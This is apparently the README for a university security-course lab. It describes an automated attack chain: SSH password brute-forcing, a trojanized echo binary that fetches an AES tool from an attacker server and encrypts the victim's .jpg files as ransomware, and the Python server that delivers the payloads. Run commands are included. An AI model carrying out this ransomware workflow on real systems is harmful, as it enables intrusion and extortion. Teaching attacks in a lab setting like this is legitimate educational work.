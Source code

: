 # CSC Project 3：Password Cracking & Ransomware Deployment

## 實驗簡介

模擬真實攻擊者入侵流程，從密碼破解、勒索病毒植入到遠端控制執行，完整呈現攻擊鏈的自動化與技術細節。程式設計結合 Python 與 C，涵蓋 SSH 暴力破解、AES 加密工具部署、惡意程式壓縮與執行等技術，並透過攻擊伺服器提供病毒與訊息下載功能。

---

## 實驗任務

### Task I：密碼破解與登入

- 使用 `victim.dat` 中的單字組合產生所有可能密碼
- 嘗試使用 SSH 登入受害者主機（帳號：`csc2025`）
- 成功登入後立即停止攻擊並進行後續植入
- 加入 retry 機制處理連線失敗與例外狀況

### Task II：勒索病毒植入與執行

- 將 `/usr/bin/echo` 壓縮為 `echo.gz` 並轉換為 C 陣列（`echo_gz.h`）
- 編譯 `echo.c`，嵌入壓縮病毒並加入 SHA3-512 簽章
- 上傳至受害者 `/app/echo` 並設定執行權限
- 執行後會：
  - 下載 AES 加密工具與勒索訊息
  - 加密 `/app/Pictures/` 中所有 `.jpg` 檔案
  - 顯示勒索訊息（banner）
  - 解壓並執行原始 echo 指令

### Task III：攻擊伺服器建置

- 使用 Python 建立 TCP socket server
- 提供 `aes-tool` 與 `banner` 下載功能
- 根據受害者請求傳送對應檔案
- 顯示連線來源與傳送紀錄


---

## 執行方式

### 編譯 echo.c 與 aes-tool

```
make
```
### 啟動攻擊伺服器
```
./attack_server.py <Attacker port>
```
### 執行密碼破解與植入攻擊
```
./crack_attack.py <Victim IP> <Attacker IP> <Attacker port>
```

---
## 實驗觀察摘要
- 密碼組合使用 permutation，涵蓋所有可能順序與長度，成功登入後立即停止攻擊。
- echo.c 透過 gzip 壓縮與 xxd 轉換，實現病毒壓縮與嵌入，並使用 OpenSSL 加簽。
- 加密流程使用 AES 工具加密圖片並覆蓋原始檔案，達到勒索效果。
- 攻擊伺服器可穩定提供檔案下載，支援多連線並記錄請求來源。
- 整體流程自動化程度高，模擬真實攻擊者行為，具備技術深度與完整性。
